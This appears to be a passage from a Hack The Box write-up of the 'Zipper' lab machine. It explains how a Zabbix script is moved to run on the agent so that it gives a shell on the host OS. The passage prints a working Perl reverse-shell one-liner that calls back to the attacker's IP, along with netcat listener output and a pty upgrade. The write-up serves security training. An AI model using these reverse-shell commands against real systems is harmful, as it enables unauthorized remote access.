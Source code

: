 Under the Zabbix host, we can see that there are two hosts and one is running the Zabbix Agent.

![](/assets/images/htb-writeup-zipper/zabbix_hosts.png)

The agent is running on the host OS while the Zabbix server is running in a container so what we want to do is modify our existing script so its runs on the Zabbix Agent (therefore on the Host OS) instead of the server.

![](/assets/images/htb-writeup-zipper/zabbix_script2.png)

We can now get a shell on the Host OS but it's not stable and we lose the connection after a few seconds:
```
root@ragingunicorn:~/htb/zipper# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 55348
/bin/sh: 0: can't access tty; job control turned off
$ hostname
zipper
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$
```

After trying a few other shells, I found the perl shell works better and is more stable:
```
perl -e 'use Socket;$i="10.10.14.23";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We now have a stable shell:
```
root@ragingunicorn:~/htb/zipper# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 46178
/bin/sh: 0: can't access tty; job control turned off
$ w
 20:56:27 up 20 min,  0 users,  load average: 0.02, 0.03, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$ hostname
zipper
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@zipper:/$
```
